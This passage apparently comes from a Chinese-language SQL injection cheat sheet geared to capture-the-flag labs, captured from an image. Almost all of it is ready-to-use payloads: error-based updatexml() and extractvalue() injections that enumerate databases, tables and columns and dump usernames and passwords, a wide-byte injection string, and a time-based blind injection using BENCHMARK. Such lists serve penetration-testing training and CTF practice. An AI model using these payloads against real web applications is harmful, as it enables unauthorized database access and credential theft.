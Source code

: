   #### **updatexml() 函数**

  ```sql

  ?id=1' and updatexml(1,conncat('^',(查询语句select --- ),'^')，1) --+

  ?id=1'/**/and/**/updatexml(1,concat('^',(SELECT/**/schema_name/**/FROM/**/information_schema.schemata/**/limit/**/4,1),'^'),1)/**/#

  //查所有数据库

  ?id=1'/**/and /**/updatexml(1,concat('^',(select database()),'^'),1)/**/#

  //查当前数据库

  ?id=1' and updatexml(1,concat('^',(select table_name from information_schema.tables where table_schema='security' ),'^'),1) --+

  //查security数据库的表

  ?id=1'/**/and/**/updatexml(1,concat('^',(select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='ctf'/**/limit/**/0,1),'^'),1)#

  //出现Subquery returns more than 1 row报错时在后面加上limint 0,1,然后依次limint 1,1 /2,1/3,1看后面几行

  ?id=1'/**/and/**/updatexml(1,concat('^',(select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name='easysql'/**/and/**/table_schema='ctf'/**/limit/**/0,1/**/),'^'),1)/**/#

  //查ctf库easysql表里面的列名

  ?id=1' and updatexml(1,concat('^',(select group_concat(username,"--",password) from users limit 0,1 ),'^'),1)

  //查当前数据库里面users表里面的username和password列

  ?id=1'/**/and/**/updatexml(1,concat('^',(select/**/substr(group_concat(flag),23,40)/**/from/**/easysql/**/limit/**/1),'^'),20)/**/#

  //查当前数据库easysql表里面flag列，并用substr批量读取

  ```

  #### extractvalue()函数

  ```sql

  ?id=1' and extractvalue(1,concat('^',(查询语句select --- ),'^')) --+

  ```

- ### **宽字节注入流程**

  ```sql

  ?id=%df'"

  ```

- ### **盲注流程（if的话中间可拼接 or或者and）**

  ```sql

  action=3) OR IF((SELECT LENGTH(DATABASE())) = 1, 1, BENCHMARK(10000000, 1)) OR (3
